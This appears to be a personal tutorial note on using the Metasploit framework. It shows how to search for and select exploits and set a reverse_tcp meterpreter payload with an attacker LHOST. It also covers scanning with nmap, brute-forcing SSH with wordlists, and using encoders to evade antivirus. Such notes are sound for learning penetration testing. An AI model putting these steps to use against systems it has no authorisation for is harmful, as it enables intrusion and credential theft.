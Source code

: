# Metasploit framework
It is used for exploitation most of the time. Sometimes for scanning.  

To start the framework use
- msfconsole 

To exit the framework use
- exit  

After starting the interactive msfconsole you can still use all your external shell commands like:
- pwd
- ls
- nmap
- ifconfig  

When trying to select an exploit it is good idea to use an external nmap script prepared to find out all potential vulnerabilities which you can use.


## Terminology
- Exploit - take advantage of a vulnerable software to start reverse shell or rootkit.

- ZeroDay - a vulnerability that wasn't fixed yet

  - ZeroDay 2017 - dangerous exploit for Windows 7/8, if someone was connected to the same network with a W7/8 with open 445/sftp port he could get hacked.

- Payload - reverse shell, actively exploiting software which you have to deliver. We can deliver it to a victim to get access to it.

# Starting metasploit framework
You can start postgresql service to make your metasploit framework run faster, but it is not necessary.

- service postgresql start (optional)
- msfconsole (start interactive console shell)

# Using msfconsole
To receive manual use
- help  

## Finding specific exploits
- search [name]
- search windows (looks up all windows based exploits)  

## Using exploits
- use [exploit name]
- use exploit/multi/browser/java_rhino (opens up a new interactive shell)

## Find out more about the exploit
- show options (shows all available options for this exploit and required parameters)
- show targets (shows the target machines it can be run on)
- show info (describes what exactly is this exploit)
- show payloads (shows available payloads for this exploit)

## Set exploit parameters
- set PAYLOAD [payload]
- set PAYLOAD java/meterpreter/reverse_tcp
- show options
- set LHOST [attacker-ip-addr]
- show options

# Metasploit modules

## Exploits
They are used to target a vulnerable software running on victim machine. There are different exploits for different platforms and different operating systems.

## Payloads
Files that we send to victim (for example backdoors). 
- singles (quite small, just one action)
- stagers (bit bigger, mostly used to acquire shell)

## Auxiliary
Fuzzers, spoofers, sniffers. Usually we will use auxilary modules for scanning, and sometimes for brute forcing ssh

## Encoders
They are used to bypass antivirus, we can change how the code looks so that antivirus doesn't find it. Antivirus use large databases that have samples of common malware. If we change how the code looks by using encoder antivirus will not know that it is a malware. Coding your own malware is a great advantage, because it can be used to trick antivirus.

## Post
Tools & programs used after you exploit the target. After acquiring access to target machine you can do further exploits (gather cookies etc)

## Nops
No-operation, which is a command in assembly language that does no operation. Nops keep payload code consistent. This instruction is '0x90'.

# Target Pentesting
## Start metasploit framework
- msfconsole

## Look around
- nmap -sV [network]

## Choose a service & look for exploits
- search [service/platform/protocol]
- search ssh

## Choose an exploit
- use [exploit path]
- use auxilary/scanner/ssh/ssh_version (enters the exploit terminal)

## Set up & run exploit
- show options
- set THREADS [n]
- set RHOSTS [target-ip-addr]
- show options
- run (start the exploit)

## Choose a passwordlist
If you decide to do brute-force attack you may wish to decide on a different password list. 
- /usr/share/wordlists/metasploit

Choose the one you wish.  
Set the path to the dictionary in the metasploit console
- set USERPASS_FILE [path]  

When trying to brute force ssh it is probably stupid idea to try root user, because it will probably be blocked by default by the SSH service.

